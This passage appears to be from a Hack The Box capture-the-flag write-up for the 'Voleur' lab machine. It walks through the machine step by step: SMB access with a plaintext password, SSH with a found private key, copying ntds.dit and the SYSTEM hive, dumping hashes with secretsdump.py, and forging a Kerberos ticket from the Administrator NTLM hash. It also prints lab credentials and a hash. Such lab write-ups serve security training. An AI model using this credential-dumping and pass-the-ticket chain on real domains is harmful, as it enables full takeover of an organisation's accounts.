
so now lets also smbclient
smbclient --realm=VOLEUR.HTB -U 'VOLEUR.HTB/jeremy.combs%qT3V9pLXyN7W4m' //DC.VOLEUR.HTB/IT

we find a id_rsa and Note, so lets extract thoseJeremy,
I've had enough of Windows Backup! I've part configured WSL to see if we can utilize any of the backup tools from Linux.
Please see what you can set up.
Thanks,
Admin
now we can ssh into the box using the id_rsa, but since we don't know which user it points to, we can use ssh-keygen to read the private key and output the public key corresponding to the user like so
ssh-keygen -y -f id_rsa
the -y flag Reads a private key file and prints its matching public key to stdout.

if you see this error, all you have to do is just assign it the proper permissions using chmod 600

we can see its pointing to the svc_backup user, so we can now ssh it like so
ssh -i id_rsa svc_backup@10.129.232.130 -p 2222
Now with WSLs its usually mounted to a directory on windows, so you can see which is mounted using mount


we have ntds.dit and to decrypt it we need the SYSTEM registery to decrypt it using secretsdump.py , so lets first extract them to our machine using scp
scp -i id_rsa -P 2222 svc_backup@10.129.232.130:"/mnt/c/IT/Third-Line\ Support/Backups/Active\ Directory/ntds.dit" .
scp -i id_rsa -P 2222 svc_backup@10.129.232.130:"/mnt/c/IT/Third-Line Support/Backups/registry/SYSTEM" .
Now using secretsdump.py
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL

now we have the Administrator NTLM hash but we have to convert it into a ticket to be able to log in, this can be done using getTGT.py
getTGT.py VOLEUR.HTB/Administrator -hashes :e656e07c56d831611b577b160b259ad2
[*] Saving ticket in Administrator.ccache
Now we export the KRB5CCNAME
export KRB5CCNAME=Administrator.ccache
klist
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@VOLEUR.HTB
Valid starting Expires Service principal
09/19/2026 09:14:48 09/19/2026 19:14:48 krbtgt/VOLEUR.HTB@VOLEUR.HTB
renew until 09/20/2026 09:14:47

and now we should evil-winrm easilyand thats it
Happy Hacking!